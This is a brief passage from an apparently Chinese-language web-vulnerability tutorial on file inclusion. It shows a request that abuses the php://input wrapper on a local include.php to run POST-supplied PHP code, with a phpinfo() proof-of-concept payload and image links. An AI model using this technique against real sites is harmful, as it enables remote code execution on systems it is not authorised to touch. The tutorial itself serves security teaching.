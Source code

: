      ![image-20231015194926981](PictureFile/【Web】TOP漏洞.assets/image-20231015194926981.png)

  2. `php://input + [POST DATA]`执行php代码

     ```php
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php phpinfo(); ?>
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBh.jpeg)
